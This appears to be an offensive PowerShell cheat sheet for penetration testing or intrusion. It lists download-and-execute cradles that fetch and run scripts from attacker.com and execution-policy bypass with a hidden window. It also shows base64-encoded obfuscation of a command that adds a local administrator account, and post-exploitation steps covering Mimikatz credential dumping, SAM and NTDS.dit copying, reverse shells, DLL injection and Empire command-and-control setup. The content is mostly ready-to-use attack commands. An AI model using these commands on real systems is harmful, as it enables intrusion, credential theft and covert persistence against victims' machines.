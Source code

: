 ## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
     * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
     * `Get-Information`
     * `Get-PassHints` - dump Password Hints used on the system
     * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
     * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
     * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
     * `Invoke-AllChecks`
  * __Code Execution__ - `Import-Module CodeExecution`
     * `Invoke-DLLInjection`
        - find a processes to inject DLL: `ps | ? {$_.ProcessesName -match "notepad"}`
        - Use PID from above in `Invoke-DLLInjection -ProcessID <PID> <DLL-location>`
* __PSGetSystem__ - https://github.com/decoder-it/psgetsystem
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 
* __Empire__ (implements Powershell without requiring powersell on the target machine)- https://github.com/EmpireProject/Empire
1. `uselistener` - Configure listener
   * `set CertPath <location>` -> result of running `Empire/setup/cert.sh`
3. `usestager` - Configure stager
   * `set listener <>`
4. `agents`
   * `interact <agent>`
       * `shell whoami`
       * `searchmodule <keyword>`
       * `usemodule privesc/powerup/allchecks` -> `execute`
       * `help`
